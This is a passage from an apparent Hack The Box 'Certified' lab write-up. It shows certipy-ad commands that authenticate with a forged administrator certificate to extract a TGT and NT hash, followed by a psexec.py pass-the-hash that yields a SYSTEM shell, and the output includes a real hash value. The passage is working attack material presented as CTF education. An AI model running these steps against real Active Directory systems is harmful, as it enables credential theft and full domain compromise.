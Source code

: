 That gave us a `administrator.pfx` certificate, which can be used to authenticate to the Domain Controller as Administrator.

We must then change the `ca_operator` back to its original `UPN`.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Let's now get the `Administrator`'s TGT and his NTLM hash 

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo ntpdate 10.10.11.41
2025-03-17 03:05:40.599937 (+0100) +35785.588485 +/- 0.074389 10.10.11.41 s1 no-leap
CLOCK: time stepped by 35785.588485


┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Finally, I used `psexec.py` to get a shell as the `Administrtaor` user.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ psexec.py 'certified.htb/Administrator@10.10.11.41' -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.41.....
[*] Found writable share ADMIN$
[*] Uploading file fVKmJzkE.exe
[*] Opening SVCManager on 10.10.11.41.....
[*] Creating service bRER on 10.10.11.41.....
[*] Starting service bRER.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is EA74-A0A7

 Directory of C:\Users\Administrator\Desktop

```